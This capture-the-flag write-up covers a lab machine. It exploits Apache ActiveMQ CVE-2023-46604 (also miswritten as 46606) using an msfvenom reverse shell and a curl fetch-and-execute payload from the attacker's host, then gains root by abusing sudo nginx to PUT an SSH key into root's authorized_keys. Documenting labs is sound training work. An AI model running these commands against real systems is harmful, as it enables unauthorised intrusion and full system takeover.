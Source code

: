 Firstly, the Apache ActiveMQ is on a port which is not grabbed by my standard nmap command:

```
nmap -sC -sV {ip}
```

This is a more exhaustive nmap search of all ports sending at least 1000 packets per second, with the timing template being 'insane':

```
nmap -p- --min-rate=1000 -T4 {ip}
```

Then run nmap with the -sC and -sV flags against the ports you find.

There is a repo on github that with code to help us exploit the Apache ActiveMQ vulnerability CVE-2023-46606:

```
wget https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-
ActiveMQ/archive/refs/heads/main.zip
unzip main.zip
cd CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ-main/
```

We need to create and ELF payload via msfvenom:

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.48 LPORT=4444 -f elf -o test.elf
```

Edit the poc-linux.xml file, changing the ip address to the webserver:

```
<value>curl -s -o test.elf http://10.10.14.48:8001/test.elf; chmod +x
./test.elf; ./test.elf</value>
```

Start an http server and netcat listener

```
python3 -m http.server 8001 &
nc -lvvp 4444
```

Run the github repo:

```
go run main.go -i 10.129.230.87 -p 61616 -u http://10.10.14.48:8001/poc-linux.xml
```

This gets us user access to the attacking box.

For Privilege Escalation, we can run:

```
sudo -l 

/usr/sbin/nginx
```

We learn that this user can run the nginx configuration file. 

We create pwn.conf in a temp directory by typing the following into the terminal:

```
cat << EOF> /tmp/pwn.conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;

events {
        worker_connections 768;

}  
http {

    server {
        listen 1337;

        root /;
        autoindex on;

        dav_methods PUT;
    }

}
EOF
sudo nginx -c /tmp/pwn.conf
```

This was a challenge because normally I would use vim to create and edit a file, but I was not able to do this on the attacking box. After running `cat << EOF>> /tmp/pwn.conf`, I typed in the file above line by line, ending the input with EOF. This could be a useful technique in the future when editing with vim doesn't work on a target box.

We run the following commands to get root access:

```
$ssh-keygen

$curl -X PUT localhost:1337/root/.ssh/authorized_keys -d "$(cat root.pub)"

$ssh -i root root@localhost

$whoami
root

```

